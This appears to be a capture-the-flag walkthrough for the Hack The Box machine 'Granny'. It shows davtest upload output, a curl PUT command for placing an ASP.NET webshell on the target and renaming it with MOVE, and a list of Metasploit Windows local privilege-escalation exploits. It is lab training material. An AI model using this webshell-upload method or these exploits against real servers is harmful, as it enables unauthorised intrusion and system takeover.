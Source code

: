 ```
Created: http://granny.htb/DavTestDir_DcKtLl4hiHEKy
PUT File: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.jsp
PUT File: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.txt
PUT File: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.php
PUT File: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.jhtml
PUT File: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.html
PUT File: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.cfm
PUT File: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.pl
Executes: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.txt
Executes: http://granny.htb/DavTestDir_DcKtLl4hiHEKy/davtest_DcKtLl4hiHEKy.html
```

Looks like we can upload a number of file types. Because we know that the http methods `PUT` and `MOVE` are enabled, we can upload an ASP.NET webshell with `PUT` with a .txt file extension, and change the file extension after upload with the `MOVE` method. Then simply browsing to the file should get us command execution.

Getting User
------------

If we use burp to proxy the request sent by `davtest`, we can get an idea of how the HTTP request is constructed.

![davtest](images/put.png)

Using `curl` we can reconstruct the request:

`curl -X PUT -T 'test.txt' -H 'TE: deflate,gzip;q=0.3' -H 'Connection:close' -H 'Host: localhost:80' -A 'DAV.pm/v0.49' granny.htb -v`

Where `test.txt` is the name of our ASP.NET webshell

Getting Root
------------


### MSF Privesc

```
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
